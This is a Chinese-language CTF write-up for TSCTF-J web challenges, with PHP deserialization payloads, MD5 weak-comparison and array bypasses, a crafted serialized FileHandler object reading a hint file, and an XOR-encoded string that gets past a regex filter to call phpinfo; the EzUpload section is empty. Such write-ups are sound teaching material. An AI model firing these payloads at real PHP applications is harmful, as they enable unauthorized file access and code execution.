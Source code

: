 # TSCTF-J

* ## Web方向

### 0x01 eaSy\_serialize

进入页面发现是源码

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

代码审计得到需要序列化一个PHP类对象，第一个变量为hash类变量，第二个变量值为’noway’，第三个变量值为's1502113478a'（运用md5碰撞）

Exp：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.png)

在localhost下运行得到序列化码

```
O%3A3%3A%22PHP%22%3A5%3A%7Bs%3A8%3A%22%00PHP%00PHP%22%3BO%3A4%3A%22bash%22%3A3%3A%7Bs%3A1%3A%22z%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A1%3A%22x%22%3Bs%3A4%3A%22null%22%3Bs%3A1%3A%22y%22%3Bs%3A4%3A%22null%22%3B%7Ds%3A9%3A%22%00PHP%00java%22%3Bs%3A5%3A%22noway%22%3Bs%3A1%3A%22c%22%3Bs%3A12%3A%22s1502113478a%22%3Bs%3A6%3A%22python%22%3BN%3Bs%3A4%3A%22bash%22%3BN%3B%7D%3Cbr%3E
```

Payload:

```
?guess= O%3A3%3A%22PHP%22%3A5%3A%7Bs%3A8%3A%22%00PHP%00PHP%22%3BO%3A4%3A%22bash%22%3A3%3A%7Bs%3A1%3A%22z%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A1%3A%22x%22%3Bs%3A4%3A%22null%22%3Bs%3A1%3A%22y%22%3Bs%3A4%3A%22null%22%3B%7Ds%3A9%3A%22%00PHP%00java%22%3Bs%3A5%3A%22noway%22%3Bs%3A1%3A%22c%22%3Bs%3A12%3A%22s1502113478a%22%3Bs%3A6%3A%22python%22%3BN%3Bs%3A4%3A%22bash%22%3BN%3B%7D%3Cbr%3E
```

获得flag

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.png)

### 

### 0x02 EasyF12

虽然题目写了只用F12就行，但是进去之后F12发现被坑了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

发现game1.html，点进去看看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

芜湖，发现右键被disabled了，果断删掉

然后上上下下左左右右成功进入下一关

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

？？？让老子点9999下？爬

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

点击“完成训练”抓包得到这个，发现有两个可以改的地方，q和liliang，更改liliang为9999发现没用，改一下q=9999，发现建议变成了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

找到fina1.php

发现屁都没有

F12看一下发现是白色隐藏起来了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

发现需要用get方法递交四个变量，同时要满足

```
($param1 != $param2)&&(md5($param1) == md5($param2))
```

和

```
($param3 != $param4)&&(md5($param3) === md5($param4))
```

然后懵逼了

注意到第一个md5比较是’==’，考点为php弱类型对比，采用md5碰撞，得到$param1和$param2值（我采用的是$param1=s878926199a和$param2=s155964671a），但后面的就不行了，因为’===’为php强类型对比，因而采用md5不能加密数组的漏洞

```
Payload：?param1=s878926199a&&param2=s155964671a&&param3[]=1&&param4[]=2
```

获得flag

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

### 0x03 easyWEB

打开页面发现就是一个输入框，输入了几次都是error

查看源代码发现一个叫submit.js的文件，内部有一个叫做BubbleGVM的函数，初步推测与检测输入有关

进入submit.js查看源代码，发现了一段代码

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

用python脚本翻译一下十六进制代码，得到

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.png)

发现一个目录叫/fllllaiig，进去看看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.png)

整理代码思路：

通过get方法传入已经序列化的参数，当参数为常规可反序列化对象时进行反序列化，传入protected类型变量op, filename, content和passwd，其中passwd值需要经过验证，在传入pop参数后在析构函数中调用process函数进行反序列化以及验证passwd操作

发现两个点：

第一个点![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image008.png)

加盐md5，已知盐值，而且提示passwd都是数字，则尝试用脚本跑出来

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image010.png)

之后在文件中搜索发现最后的密码为5201314

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image012.png)

第二个点：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

析构函数中op===’2’为强对比，而前面验证函数中op==’2’为弱对比，因而可以通过op=2来绕过强对比，避免op被置为‘1’从而跳入put分支

第三个点：

变量类型为protected，在之后构造payload时需要对payload进行手动修改

构造payload：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image016.png)

远程file\_get\_contents\(file\)需要用绝对地址

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image018.png)

在构造protected变量的序列化过程中存在\00字符，表现为不可见字符，需要手动添加，位置为环绕\*字符左右各一个，同时s要大写表示后面允许使用\00的表达

最终payload:

```
O:11:"FileHandler":4:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:32:"/var/www/html/fllllaiig/hint.php";S:10:"\00*\00content";S:3:"111";S:9:"\00*\00passwd";S:7:"5201314";}
```

发现result并无返回值，查看页面源代码发现hint：![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image020.png)

进入到/bubblegvm5201314目录下查看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image022.png)

发现是正则表达式检测，通过异或绕过

Payload：

```
?a=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

跳转到phpinfo界面，在disable\_function处发现flag：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image024.png)



### 0x04 EzUpload





